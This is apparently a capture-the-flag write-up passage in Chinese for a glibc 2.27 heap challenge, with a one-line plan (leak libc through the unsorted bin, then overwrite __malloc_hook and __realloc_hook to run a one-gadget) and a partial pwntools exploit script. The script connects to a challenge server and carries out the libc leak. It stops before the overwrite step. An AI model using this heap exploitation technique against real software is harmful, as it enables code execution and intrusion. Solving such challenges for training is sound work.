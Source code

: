 ## attachment-13-校内
堆利用的题，先用 unsorted bin 泄漏出libc基址，然后修改__malloc_hook和__realloc_hook执行ogg即可
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './libc-2.27.so'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12700'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b* main
            b* $rebase(0xcd0)
            b* $rebase(0xa82)
            b* $rebase(0xb02)
            b* $rebase(0xb8c)
            b* $rebase(0xc46)
        ''')

def choose(index):
    p.sendlineafter(b'choice:\n', str(index).encode())

def add(idx, size):
    choose(1)
    p.sendlineafter(b'coordinate:\n', str(idx).encode())
    p.sendlineafter(b'required:\n', str(size).encode())

def delete(idx):
    choose(2)
    p.sendlineafter(b'cleanse:\n', str(idx).encode())

def edit(idx, size, content):
    choose(3)
    p.sendlineafter(b'inscription:\n', str(idx).encode())
    p.sendlineafter(b'length:\n', str(size).encode())
    p.sendafter(b'truth:\n', content)

def show(idx):
    choose(4)
    p.sendlineafter(b'truth:\n', str(idx).encode())

elf = ELF(elf_path)
libc = ELF(libc_path)


add(0, 0x20)
add(1, 0x600)
add(2, 0x20)
delete(1)
show(1)
__malloc_hook = u64(p.recv(6).ljust(8, b'\x00')) - 0x70
libc_base = __malloc_hook - libc.sym['__malloc_hook']
__realloc_hook = libc_base + libc.sym['__realloc_hook']
```